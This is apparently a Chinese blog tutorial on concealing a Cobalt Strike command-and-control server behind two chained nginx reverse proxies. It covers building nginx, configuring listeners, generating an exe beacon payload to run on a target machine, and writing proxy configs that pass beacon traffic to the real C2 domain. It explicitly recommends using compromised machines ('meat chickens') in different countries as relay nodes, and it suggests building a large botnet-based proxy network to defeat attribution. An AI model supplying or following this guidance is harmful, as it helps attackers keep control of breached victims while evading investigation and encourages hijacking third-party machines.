



# 尝试将 C2 隐匿于多级 nginx 反向代理

> 原文：[https://www.zhihuifly.com/t/topic/3648](https://www.zhihuifly.com/t/topic/3648)

# 尝试将 C2 隐匿于多级 nginx 反向代理

## 关于利用多级 nginx 反代实现 beacon 上线的大致思路拓扑



> 大致思路是这样,首先,我们会用一个 CS 的外部 http 监听器先把流量弹到第一层的 nginx 反代理节点上,因为事先已经在 mail 这台机器上做好了反代配置,而这个反代配置里实际指向的是我们第二层 nginx 反代节点的域名,所以当回连的流量一过来就会直接被抛到第二层的 nginx 反代节点上,由于又事先在第二层反代节点上也做好了反代配置,不过这次配置里指向的并不是别的地方,而是我们真实的 C2 服务器域名,所以最终导致的结果就是,目标机器回连流量在通过众多的 nginx 反代节点之后正常上线,大家自己实际操作过程中,务必要先对着拓扑理解清楚再动手,不然你可能会觉得有些乱,其实,说实话,没啥技术含量,完全都是些基础的堆砌加灵活应用而已,来看实际操作吧

### 0x01 首先,同时在两台 nginx 反代节点的 vps 机器上编译安装好 nginx,过程非常简单,如下

```
# apt-get install build-essential libtool libpcre3 libpcre3-dev zlib1g-dev openssl -y
# useradd -s /sbin/nologin -M nginx 切记不要以高权限起服务
# wget http://nginx.org/download/nginx-1.14.1.tar.gz
# tar xf nginx-1.14.1.tar.gz
# cd nginx-1.14.1
# ./configure --prefix=/usr/local/nginx-1.14.1 --user=nginx --group=nginx --with-http_ssl_module --with-http_stub_status_module --with-http_gzip_static_module
# make && make install
# echo $? 
```


### 0x02 接着,再回到自己本地的 linux 机器上

> 启动 CobalStrike 客户端,连到自己的 C2 服务器,然后创建两个 常规 HTTP 协议,端口为 80 [ 注: 两个监听器的协议必须匹配 ] 的监听器,一个就是反向监听器 [ 特别注意下这个反连域名,是真正的 C2 服务器域名,即 oa.finalc2.com,也就是等会儿要从第二层 nginx 反代节点往后抛的域名 ]


另外再创建一个相同协议端口的外部监听器,注意,这个外部监听器的回连域名要写第一层 nginx 反代节点的域名[ 即 mail.first.com ],因为回连的流量会首先被弹到这里,然后再通过层层反代直至抛到后端真实的 C2 服务器,最后,再用这个外部监听器创建一个 exe payload,等会儿要把它丢到目标机器执行


> 如下,两个监听器准备就绪


### 0x03 由于此处全程都是用域名在操作,所以务必请提前配置好所有域名解析,只需添加一条对应的 A 记录 即可

```
mail.first.com 21.67.38.47 
```


```
host.second.com 187.50.112.135 
```


```
oa.finalc2.com 208.36.69.66 
```


### 0x04 开始配置第一层 nginx 反代节点

也就是在 21.67.38.47 这台机器上,配置过程非常简单,如下

```
# vi /usr/local/nginx/conf/nginx.conf
worker_processes 1;
events {
 worker_connections 1024;
}
http {
 include mime.types;
 default_type application/octet-stream;
 sendfile on;
 keepalive_timeout 65;
 log_format main '$remote_addr - $remote_user [$time_local] '
 ' "$request" $status $body_bytes_sent '
 ' "$http_referer" "$http_user_agent" "$http_x_forwarded_for" ';

upstream default_pools{

server [host.second.com:80](http://host.second.com:80); 到达本机的所有 80 端口的流量都会被后抛到这个域名上

} `server {

listen 80;

server_name [host.second.com](http://host.second.com);

location / {

proxy_pass http://default_pools;

}

}

}` 
```

> 配置完成后,务必要记得立即重启 nginx 服务使配置生效

```
# ifconfig | grep 'inet addr'
# /usr/local/nginx/sbin/nginx -s quit
# /usr/local/nginx/sbin/nginx 
```



### 0x05 开始配置第二层 nginx 反代节点

> 也就是在 187.50.112.135 这台机器上,过程基本同上,只不过这次是把流量直接抛给了后端的真实 C2 服务器

```
# vi /usr/local/nginx/conf/nginx.conf
worker_processes 1;
events {
 worker_connections 1024;
}
http {
 include mime.types;
 default_type application/octet-stream;
 sendfile on;
 keepalive_timeout 65;
 log_format main '$remote_addr - $remote_user [$time_local] '
 ' "$request" $status $body_bytes_sent '
 ' "$http_referer" "$http_user_agent" "$http_x_forwarded_for" ';

upstream default_pools{

server [oa.finalc2.com:80](http://oa.finalc2.com:80); 真实 C2 域名

} `server {

listen 80;

server_name [oa.finalc2.com](http://oa.finalc2.com);

location / {

proxy_pass http://default_pools;

}

}

}` 
```

> 之后,同样务必要记得立即重启 nginx 服务使配置生效



> 此时,当我们回到目标机器上正常执行 payload 后,便会看到 beacon 正常上线,如下,从目标机器的网络连接中也不难发现,其实,这个连接显示的 ip 也只是我们上面第一层 nginx 反代节点的ip,而真实的 C2 服务器却被隐藏在了后端好几层,再加上如果中间的 nginx 反代节点全部都是直接拿不同国家地域的肉鸡搞的[高度匿名化],这无疑再一次加大了对方的溯源难度和成本


> 另外,从 CS web log 里我们也清晰的看到,所有请求都是从 187.50.112.135 [即 host.second.com 第二层 nginx 反代节点 ]这台机器过来的,至此,也说明我们的多级反代确实是成功有效的


## 小结:

至此为止,关于如何利用多级 nginx 反代,来实现 C2 的深度隐藏基本也就说完了,多次实战检验,传输确实挺稳定的,说实话,没太多技术含量,还是那句话,都是些非常简单的基础配合利用,文章初衷也是为了给弟兄们提供一个简单易用的 demo,其实,在实战中,你完全可以把这个搞的非常的复杂,比如,利用一些比较稳定的肉鸡群做成一个非常庞大的全球反代网,这些就要靠弟兄们自己思考了,ok,再多的就不说了,其实话说到这儿,理解的弟兄,应该也都早已经理解了,不过退一步来讲,这样隐藏 C2 其实还是不够彻底,因为,毕竟我们此时的 C2 还是直接被暴露在公网中,既然是在公网,那就肯定有被扫到或者反捅的风险,比如,你的 C2 直接用的 CobaltStrike 这种东西来搞的,万一哪天 CS 再爆洞,你可能又是第一批受害者,所以...弟兄们应该都能理解了,在下个章节中我们将会简单介绍,如何用避免直接把 C2 暴露在公网中的方式去隐藏,并实现本地 beacon 上线,ok,废话不多讲,有任何问题,弟兄们及时反馈,同时也非常欢迎大家来一起深度讨论交流,祝好运